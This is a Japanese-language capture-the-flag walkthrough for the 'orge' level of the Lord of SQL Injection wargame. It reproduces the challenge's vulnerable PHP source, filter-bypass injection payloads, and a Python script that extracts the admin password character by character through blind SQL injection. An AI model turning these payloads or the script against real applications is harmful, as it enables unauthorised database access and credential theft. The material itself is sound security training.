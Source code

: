 # orge

## answer

- [orge](../src/orge.py)

## problem

```
query : select id from prob_orge where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=1
```

とすると

```
query : select id from prob_orge where id='guest' and pw='1'
```

となった。

コードを読んでいく。

```
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
```

これは前と同じ。

違う点といえば、

```
$_GET[pw] = addslashes($_GET[pw]); 
$query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
```

答えが欲しければ最後にはadminでログインする必要あり。

ちなみに、addslashesにより、以下の文字はエスケープされる。

- シングルクォート (')
- ダブルクォート (")
- バックスラッシュ (\\)
- NUL (NULL バイト)

```?pw=1'||id='admin```

これでいく。

```https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=1'%7C%7Cid%3D'admin```

```
query : select id from prob_orge where id='guest' and pw='1'||id='admin'

Hello admin
```

とでた。

どうやら問題は解けてないようだ。

多分```if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");```の後半の条件文がfalseでクリア条件が実行されてない。

もし```$query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; ```が成功していたら、Hello adminって画面に出してくれるので、BlindSQLiかなと思う。

SUBSTRでエクスプロイトのプロトタイプを作ってみる。空白は禁止されてない。のびのびやろう。


```?pw=1' || SUBSTR(pw,1,1) < 'A' && id='admin```

```?pw=1' || SUBSTR(pw,1,1) > 'A' && id='admin```

この２つで挙動が変わってくれって願いながらやってみる。URLエンコード

```?pw=1'%20%7C%7C%20SUBSTR(pw%2C1%2C1)%20%3C%20'A'%20%26%26%20id%3D'admin```

```?pw=1'%20%7C%7C%20SUBSTR(pw%2C1%2C1)%20%3E%20'A'%20%26%26%20id%3D'admin```

上の方のエクスプロイトのみ```Hello Admin```を返す。

どうやらいけそう。

じゃあ、コードを書いていくぜ。


```
#!/usr/bin/python3
# coding : UTF-8

import sys
import requests
import time

def main():
    url = "https://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php"
    ua = 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
    headers = {'User-Agent': ua}
    cookies = dict(PHPSESSID='XXXXXXXXXXXXXXXXXXXXXXXX')

    chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    for count in range(1, 10):
        for char in chars:
            val = '1\' || SUBSTR(pw,{count},1)=\'{char}\' && id = \'admin'.format(count = count, char = char)
            params = {'pw': val}
            response = requests.get(url, headers=headers, params=params, cookies=cookies, allow_redirects=False)
            if response.text.count("Hello admin") == 1:
                password += char
                print(password)
                break
            if char == 'Z':
                print("not found")
                return
            time.sleep(0.1)
    print(password)

if __name__ == "__main__":
    main()
```

## supplementary

これも前に言ったかもだけど、先にパスワードの長さを取得するのもスタンダードらしいっす。

```
?pw=1' || length(pw)=8 && id='admin
```

こんな感じかな？

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [addslashed | php manual](https://www.php.net/manual/ja/function.addslashes.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)

- [論理演算子 | MySQL manual](https://dev.mysql.com/doc/refman/5.6/ja/logical-operators.html)